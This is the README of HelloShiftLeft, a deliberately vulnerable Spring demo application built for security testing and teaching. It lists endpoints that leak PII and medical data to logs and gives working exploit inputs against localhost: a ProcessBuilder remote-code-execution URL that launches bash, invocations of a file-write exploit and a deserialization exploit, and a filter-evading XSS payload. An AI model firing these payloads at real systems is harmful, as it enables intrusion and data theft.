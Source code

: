 # HelloShiftLeft - Shiftleft-chuck (edit2)

This is a demo application which provides a real world representation of a REST service that uses a mix of convention and configuration to simulate a decent set of vulnerabilities exposed in the code. It includes scenarios such as sensitive data leaking to logs, data secrets leaks, authentication bypass, remote code execution, XSS vulnerabilites etc. The sample sensitive data is a mix of financial data such as account information, medical data of patients, and other PII data such as customer information. HelloShiftLeft also contains patterns/anti-patterns of how data is used/abused in interfaces or channels (to and from HTTP/TCP, third-party, database) that can lead to vulnerabilites. The application is built on the Spring Framework and exposes a series of endpoints and APIs for queries and simulating exploits.

## Build
 ```sh
 $ git clone https://github.com/ShiftLeftSecurity/HelloShiftLeft.git
 $ cd HelloShiftLeft
 $ mvn clean package
 ```
 
## Run
 ```sh
 $ java -jar target/hello-shiftleft-0.0.1.jar
```

## Exercise Vulnerabilites and Exposures
Once the application starts, vulnerabilites and exposures in it can be tested with API access patterns described below and through example scripts provided in the [exploits](https://github.com/ShiftLeftSecurity/HelloShiftLeft/tree/master/exploits) directory. These are summarized below:  

### Sensitive Data Leaks to Log

| URL | Purpose |
| --- | ------- |
| http://localhost:8081/customers/1 | Returns JSON representation of Customer resource based on Id (1) specified in URL |
| http://localhost:8081/customers   | Returns JSON representation of all available Customer resources |
| http://localhost:8081/patients    | Returns JSON representation of all available patients in record |
| http://localhost:8081/account/1   | Returns JSON representation of Account based on Id (1) specified |
| http://localhost:8081/account     | Returns JSON representation of all available accounts and their details |

All the above requests leak sensitive medical and PII data to the logging service. In addition other endpoints such as `/saveSettings`, `/search/user`, `/admin/login` etc. are also available. Along with the list above, users can explore variations of `GET`, `POST` and `PUT` requests sent to these endpoints.

### Remote Code Execution

An RCE can be triggered through the `/search/user` endpoint by sending a `GET` HTTP request as follows:

[http://localhost:8081/search/user?foo=new java.lang.ProcessBuilder({'/bin/bash','-c','echo 3vilhax0r>/tmp/hacked'}).start()](http://localhost:8081/search/user?foo=new%20java.lang.ProcessBuilder(%7B%27%2Fbin%2Fbash%27%2C%27-c%27%2C%27echo%203vilhax0r%3E%2Ftmp%2Fhacked%27%7D).start())

This creates a file `/tmp/hacked` with the content `3vilhax0r`

### Arbritary File Write

The [filewriteexploit.py](https://github.com/ShiftLeftSecurity/HelloShiftLeft/blob/master/exploits/filewriteexploit.py) script can be executed as follows to trigger the arbritary file writing through the `/saveSettings` endpoint:
```
$ python2 filewriteexploit.py http://localhost:8081/saveSettings testfile 3vilhax0r
```
This creates a file named `testfile` with `3vilhax0r` as its contents

### Authentication Bypass

The [exploit.py](https://github.com/ShiftLeftSecurity/helloshiftleft/blob/master/exploits/JavaSerializationExploit/src/main/java/exploit.py) script allows an authentication bypass by exposing a deserialization vulnerability which allows administrator access:
```
$ python2 exploit.py
```

This returns the following sensitive data:

```
Customer;Month;Volume
Netflix;January;200,000
Palo Alto;January;200,000
```

### XSS

A reflected XSS vulnerability exists in the application and can be triggered using the _hidden_ `/debug` endpoint as follows:

[http://localhost:8081/debug?customerId=1&clientId=1&firstName=a&lastName=b&dateOfBirth=123&ssn=123&socialSecurityNum=1&tin=123&phoneNumber=5432<scriscriptpt>alert(1)</sscriptcript>](http://localhost:8081/debug?customerId=1&clientId=1&firstName=a&lastName=b&dateOfBirth=123&ssn=123&socialSecurityNum=1&tin=123&phoneNumber=5432<scriscriptpt>alert(1)</sscriptcript>)

It raises and alert dialogue and returns the Customer object data.
